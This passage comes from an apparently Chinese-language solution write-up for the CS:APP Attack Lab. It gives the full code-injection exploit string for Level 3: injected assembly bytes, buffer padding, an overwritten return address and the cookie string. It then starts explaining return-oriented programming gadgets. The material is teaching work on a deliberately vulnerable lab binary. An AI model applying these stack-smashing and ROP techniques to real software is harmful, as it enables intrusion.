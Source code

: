 ### Level 3

Level 3是Level 2的延伸，它要求输入给`touch3`一个字符串，然后让这个字符串和`cookie`通过以下函数比较：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    // s为val的二进制表示，保留8位
    sprintf(s, "%.8x", val);
    // sval和s的前至多9位是否相同
    return strncmp(sval, s, 9) == 0;
}
```

Level 3的解法和Level 2类似，不过要求把一个字符串写在栈上，传给寄存器`%rdi`的只是字符串的地址。把该字符串`sval`放在栈哪里要注意。在`getbuf`返回后，栈顶指针`%rsp`指向返回地址，PC指针跳转到注入代码处，运行注入代码，把`touch3`地址`push`到栈上，然后`retq`读取出该地址，将PC指针跳转到`touch3`代码那里。这个过程中`%rsp`随`pushq`减少，然后又随`retq`增加，最终没有变化，还是在`getbuf`返回地址那。接下来运行`touch3`，`haxmatch`分配110字节给`cbuf`，涵盖了`getbuf`里面给`buf`的所有空间。`hexmatch`还随机定`s`的首地址，让`sprintf`写入的字符串随机出现在这段空间上，可能会把`buf`原有内容覆盖掉。为了安全传值，我们不能把`sval`字符串的内容写在`buf`范围内，不然可能会被`s`覆盖。我们可以把它写在`getbuf`返回地址更高位的地方，这样`hexmatch`是无法变动`sval`字符串的。因此，如同Level 2，注入代码还是这个样子：

```assembly
mov $0x5561dca8, %rdi			# %rsp+8，越过了返回地址，作为sval字符串首地址
pushq $0x4018fa					# touch3的地址
retq
```

整个输入字符串如下：

```assembly
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3		# 注入代码
# 填充buf到40个字符
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
# 注入代码的地址。和Level 2一样
78 dc 61 55 00 00 00 00
# sval的值。它应该和cookie（转换成字符串后）一样
35 39 62 39 39 37 66 61 00
```

在理解Level 2后，做Level 3不是很难。

## Part II: Return-Oriented Programming

### Level 2

`rtarget`和`ctarget`不同，它使用了stack randomization随机化栈地址，还让栈空间上不可执行代码（无法执行`buf`内注入代码）。对`rtarget`进行攻击的方式是return-oriented programming (ROP)。它在已有指令上找出多个小块，称为gadget。每个gadget末尾是一个`ret`指令，会让程序跳转到下一个gadget。gadget不一定要包括原有指令中完整的一行，比如以下函数：

```assembly
0000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```
